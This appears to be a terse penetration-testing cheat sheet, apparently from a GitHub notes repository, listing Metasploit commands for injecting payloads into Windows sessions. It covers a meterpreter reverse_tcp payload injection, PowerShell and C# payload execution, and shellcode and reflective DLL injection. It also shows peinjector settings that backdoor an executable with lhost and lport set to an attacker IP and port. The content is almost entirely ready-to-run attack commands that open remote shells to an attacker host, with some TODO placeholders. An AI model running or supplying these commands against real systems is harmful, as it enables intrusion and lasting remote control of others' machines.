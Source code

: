# Metasploit

Search Tag(s): #metasploit-framework

## 01 - Metasploit

TODO: Go through every MSF module

## Inject via Payload Module

```
msf > use exploit/windows/local/payload_inject

options
```

```
meterpreter > run exploit/windows/local/payload_inject payload=windows/x64/meterpreter/reverse_tcp lhost=<IP>
```

## Inject PowerShell Payload

```
use post/windows/manage/exec_powershell
```

```
post/windows/manage/multi_meterpreter_inject
```

## Inject C\# Payload

```
msf > use post/windows/manage/powershell/build_net_code

msf post(windows/manage/powershell/build_net_code) > options

msf post(windows/manage/powershell/build_net_code) > set source_file /path/to/payload.cs

msf post(windows/manage/powershell/build_net_code) > run
```

## Inject Shellcode

```
meterpreter > run post/windows/manage/shellcode_inject
```

## Inject DLL Binary

```
post/windows/manage/reflective_dll_inject
```

## Inject EXEcutable Binary

```
meterpreter > load peinjector

Peinjector Commands
===================

    Command       Description
    -------       -----------
    injectpe      Inject a shellcode into a given executable
..[omitted]..
```

TODO: Fill this info

```
meterpreter > injectpe
```

```
msf post(windows/manage/peinjector) > set targetpe C:\\path\\to\\to\\program.exe

msf post(windows/manage/peinjector) > set session <session_ID>

msf post(windows/manage/peinjector) > set lhost <attacker_IP>

msf post(windows/manage/peinjector) > set lport <attacker_PORT>

msf post(windows/manage/peinjector) > run
```

---
## References

### Rapid7

- [Rapid7: Metasploit Framework - Build .NET Code](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/manage/powershell/build_net_code.md)

### Hacking Articles

- [Hacking Articles: Metasploit for Pentester - Inject Payload into Executable](https://www.hackingarticles.in/metasploit-for-pentester-inject-payload-into-executable/)

### Shell is Coming

- [Shell is Coming: Metasploit - Getting Ingress firewall rules](https://www.shelliscoming.com/2013/07/getting-ingress-firewall-rules.html)

### evilcomrade

- [evilcomrade: Windows Lateral Movement Fu](https://1evilcomrade.blogspot.com/2017/11/windows-lateral-movement-fu.html)